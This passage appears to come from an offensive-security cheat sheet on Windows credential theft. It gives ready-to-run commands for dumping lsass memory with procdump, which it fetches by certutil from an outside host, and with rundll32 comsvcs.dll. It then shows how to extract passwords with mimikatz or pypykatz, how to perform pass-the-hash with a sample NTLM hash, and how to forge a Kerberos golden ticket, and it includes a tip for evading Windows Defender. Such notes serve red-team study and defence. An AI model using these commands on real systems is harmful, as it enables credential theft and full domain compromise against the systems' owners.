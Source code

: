     # Now every user session and authentication into this machine will get logged and plaintext credentials will get captured and dumped into c:\windows\system32\mimilsa.log
    ```
    

## Mini Dump

Dump the lsass process with `procdump`

> Windows Defender is triggered when a memory dump of lsass is operated, quickly leading to the deletion of the dump. Using lsass's process identifier (pid) "bypasses" that.

```powershell
# HTTP method - using the default way
certutil -urlcache -split -f http://live.sysinternals.com/procdump.exe C:\Users\Public\procdump.exe
C:\Users\Public\procdump.exe -accepteula -ma lsass.exe lsass.dmp

# SMB method - using the pid
net use Z: https://live.sysinternals.com
tasklist /fi "imagename eq lsass.exe" # Find lsass's pid
Z:\procdump.exe -accepteula -ma $lsass_pid lsass.dmp
```

Dump the lsass process with `rundll32`

```powershell
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump $lsass_pid C:\temp\lsass.dmp full
```

Use the minidump:

- Mimikatz: `.\mimikatz.exe "sekurlsa::minidump lsass.dmp"`
    
    ```powershell
    mimikatz # sekurlsa::minidump lsass.dmp
    mimikatz # sekurlsa::logonPasswords
    ```
    
- Pypykatz: `pypykatz lsa minidump lsass.dmp`

## Pass The Hash

```powershell
mimikatz # sekurlsa::pth /user:SCCM$ /domain:IDENTITY /ntlm:e722dfcd077a2b0bbe154a1b42872f4e /run:powershell
```

## Golden ticket

```powershell
.\mimikatz kerberos::golden /admin:ADMINACCOUNTNAME /domain:DOMAINFQDN /id:ACCOUNTRID /sid:DOMAINSID /krbtgt:KRBTGTPASSWORDHASH /ptt
```
